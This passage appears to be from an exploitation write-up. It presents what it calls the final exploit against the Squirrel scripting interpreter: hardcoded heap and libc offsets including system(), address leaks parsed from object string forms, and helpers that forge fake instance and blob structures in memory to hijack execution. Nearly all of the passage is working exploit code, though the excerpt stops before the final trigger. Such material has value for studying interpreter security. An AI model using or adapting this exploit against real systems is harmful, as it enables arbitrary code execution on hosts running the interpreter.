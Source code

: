 Our final exploit looks like this:

```
/* Heap offsets */
BLOB1_OFFSET <- 0x22df0
BLOB1_CONTENT_OFFSET <- BLOB1_OFFSET + 0xb0
/* Library offsets */
SYSTEM_OFFSET <- 0xef90
ESCAPE_OFFSET <- 0xd8c0
VPTR_BLOB_OFFSET <- 0x20d270

blob_1 <- blob(1000)

p64 <- function(blb, val)
{
	for (local i = 0; i < 8; i++) {
		blb.writen(val & 0xff, 'b')
		val = val >> 8
	}
}

create_stackobj <- function(blb, type_, ptr)
{
	blb.writen(type_, 'i') // type
	blb.writen(0, 'i')     // padding
	p64(blb, ptr)          // object pointer
}

create_instance <- function(blb, class_addr, userptr)
{
	p64(blb, 0xdeadbeef) // _vptr.SQRefCounted
	p64(blb, 100)        // _uiRef
	p64(blb, 0)          // _weakref
	p64(blb, 0)          // _next
	p64(blb, 0)          // _prev
	p64(blb, 0)          // _sharedstate
	p64(blb, 0)          // _delegate
	p64(blb, class_addr) // _class
	p64(blb, userptr)    // _userpointer
	p64(blb, 0xdeadbeef) // _hook
	p64(blb, 104)        // _memsize
	p64(blb, 0)          // _values pt1
	p64(blb, 0)          // _values pt2
}

create_blob <- function(blb, base_addr, size, offset, vptr)
{
	p64(blb, vptr)       // _vptr.SQStream
	p64(blb, size)       // _size
	p64(blb, size)       // _allocated
	p64(blb, offset)     // _ptr
	p64(blb, base_addr)  // _buf
	p64(blb, 1)          // _owns
}

escape_addr <- escape.tostring().slice(14, -1).tointeger(16)
blob_cls_addr <- blob.tostring().slice(11, -1).tointeger(16)
blob_inst_addr <- blob_1.tostring().slice(14, -1).tointeger(16)
heap_base <- blob_inst_addr - BLOB1_OFFSET

create_stackobj(blob_1, 0x0a008000, heap_base + BLOB1_CONTENT_OFFSET + 16)
create_instance(blob_1, blob_cls_addr, heap_base + BLOB1_CONTENT_OFFSET + 120)

print("stdlib _string_escape: " + escape + "\n")
```